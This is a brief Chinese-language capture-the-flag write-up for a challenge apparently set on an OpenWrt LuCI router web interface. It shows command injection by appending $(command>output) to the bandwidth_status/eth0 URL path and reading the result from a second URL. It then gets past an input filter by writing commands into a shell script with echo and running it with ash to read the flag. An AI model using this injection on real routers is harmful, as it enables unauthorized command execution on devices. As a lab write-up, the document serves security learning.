


# level2-bandwidth_status writeup
## 过程
* 通过提示知道了 URL `http://address/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0` 可以获取 eth0 网卡的宽带信息，因此猜测此题可以构造命令，利用该接口获取flag
  
* 可以通过`http://address/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(command>output)` 来获取 shell 结果，访问`http://address/cgi-bin/luci/output`来获取结果。
* 一开始输入以下命令不能获取 flag，分析是处理函数对输入进行了过滤
  ```shell
    cd ..
    cd /
    cat flag
    ```
* 最后使用命令编写 shell 脚本，运行脚本获得 flag
  ```shell
    echo cd ..>output.sh
    echo tail flag>>output.sh
    ash output.sh
    ```
